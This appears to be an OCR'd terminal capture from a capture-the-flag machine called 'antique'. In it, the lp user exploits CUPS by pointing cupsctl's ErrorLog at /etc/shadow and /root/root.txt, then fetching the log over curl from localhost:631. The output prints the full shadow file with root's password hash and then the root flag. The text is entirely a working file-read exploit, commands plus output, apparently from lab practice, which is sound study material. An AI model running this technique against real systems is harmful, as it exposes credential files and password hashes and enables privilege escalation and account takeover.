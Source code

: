 ```
lp@antique:~$ cupsctl ErrorLog="/etc/shadow"
lp@antique:~$ curl http://localhost:631/admin/log/error_log
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
tcpdump:*:18375:0:99999:7:::
landscape:*:18375:0:99999:7:::
pollinate:*:18375:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18891:0:99999:7:::
lp@antique:~$ cupsctl ErrorLog="/root/root.txt"
lp@antique:~$ curl http://localhost:631/admin/log/error_log
fa21719665a3e328f0935b246e83c027
```
